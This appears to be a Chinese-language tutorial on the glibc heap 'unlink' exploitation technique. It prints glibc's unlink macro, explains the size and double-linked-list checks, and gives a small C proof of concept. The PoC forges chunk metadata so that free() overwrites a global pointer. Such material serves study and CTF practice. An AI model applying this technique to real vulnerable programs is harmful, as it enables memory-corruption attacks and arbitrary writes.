




### unlink源码

unlink本质：从双链表中取出元素。

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    FD = P->fd;								      \
    BK = P->bk;								      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;							      \
        if (!in_smallbin_range (P->size)				      \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \
	    if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	      malloc_printerr (check_action,				      \
			       "corrupted double-linked list (not small)",    \
			       P, AV);					      \
            if (FD->fd_nextsize == NULL) {				      \
                if (P->fd_nextsize == P)				      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;		      \
                else {							      \
                    FD->fd_nextsize = P->fd_nextsize;			      \
                    FD->bk_nextsize = P->bk_nextsize;			      \
                    P->fd_nextsize->bk_nextsize = FD;			      \
                    P->bk_nextsize->fd_nextsize = FD;			      \
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}

```

主要检查

- 堆块大小一致检查

    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);


- 双链表完整性检查

```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);\
```

FD->bk==P

BK->fd==P

保证了双链表的双向连接


### 攻击代码示例

free机制触发unlink改写指针内容

攻击效果:一个指针的内容变成指针地址-0x18，同时造成了堆块的重叠。

ptr = ptr_addr - 0x18

```c
#include <stdio.h>
#include <malloc.h>
#include <unistd.h>
#include <string.h>
long long list[30]={0};
int main()
{
    char *p = malloc(0x80);
    char *q = malloc(0x80);
    char *r = malloc(0x80);
    list[0] = p;

    *(long *) p = 0;
    *(long *) (p+8) = 0x81;
    *(long *) (p+0x10) = list - 0x3;
    *(long *) (p+0x18) = list - 0x2;
    *(long *) (q-0x10) = 0x80;
    *(long *) (q-8) = 0x90;
//=====================line==================
    free(q);
    return 0;
}
```

free(q)前：






free(q)触发unlink后



可以看到list[0]已经被修改了。


#### ps：

由于堆块检查

    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);

只需要满足

(chunksize(P) == (next_chunk(P))->prev_size就行，size也可以这样伪造

